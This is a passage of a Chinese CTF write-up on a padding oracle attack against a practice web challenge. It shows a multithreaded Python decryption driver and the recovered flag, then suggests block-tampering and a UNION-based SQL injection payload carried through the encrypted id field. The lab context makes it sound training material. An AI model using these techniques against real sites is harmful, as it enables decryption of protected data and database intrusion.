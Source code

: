 ```
example = "w4N2JrPqWa7ZO8IVMiJMx3Zv6QqPJ1C1KVjIyLDkP1OFTbLI16Xc8KGetNaEx6L!02QDVwicF8Eoy6387pdyjTbe6c6q3hZRXbArGQIpmmT9KQW0!Yj5KGLDJA96iscGvKZ2G3SvGVhASFSpyiLrVYHhXL0UKzbr1BtCAOHdlxTKgcM5taNouOyclY8feTbPguDnqHqhibyVnw55RChVqA~~"

key_str = "PaddingException"

str = b64d(example)
cipher_blocks = [str[i:i+16] for i in range(0,len(str),16)]

if(len(cipher_blocks) &lt; 2):
    print "ERROR,you should at least have 2 blocks!"
    exit()

threads = []
for i in range(9): #密文一共有9块,所以开9个线程
    t = threading.Thread(target=attack,args=(i,))
    threads.append(t)

plain = ["a"]*9 #明文一共9块

for t in threads:
    t.setDaemon(True)
    t.start()

for t in threads:
    t.join()

plain_text = ""
plain_text = plain_text.join(plain)

print "result plain:",plain_text
```

经测试在美帝的vps上跑，大约10分钟就可以出结果。<br>
最终结果：

```
result plain: `{`"flag": "^FLAG^ddee16a603148f1d230889fc3e85e53e3b3792095b9d5f3987046f22a63e9cdf$FLAG$", "id": "3", "key": "0vGaWMGLxVgY-IAm5ZWhfQ~~"`}`
```

这样第二个flag就拿到了。这道题还有第三、第四个flag，我没有继续做下去，因为至此已经获取了足够的分数可以参与私人渗透请求了，不过我可以给想继续做下去的童鞋两点思路：

```
上面解出的明文中id为"3"，可以通过修改前一块密文的对应字节，使之变为"1",因为我记得只向数据库中插入了两条记录，那么id为"1"到底是什么呢，我猜很可能就是flag。
```

```
在跑上面的脚本过程中，我发现一条有意思的报错：
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
TypeError: 'int' object has no attribute '__getitem__'
```

注意这里的sql语句，想到了什么，对！就是注入，如果我们让解密出来的明文中的id值为”-1 union select database(),user()”那么sql语句就会变为：

```
SELECT title, body FROM posts WHERE id=-1 union select database(),user()
```

数据库信息就会回显在页面中，所以这里还可以进行sql注入，只不过payload需要用padding oracle attack的办法进行加密，不过这个想想都掉头发，我头发少，就留给你们了（笑）！

那么就让我们开始愉快地挖洞吧！
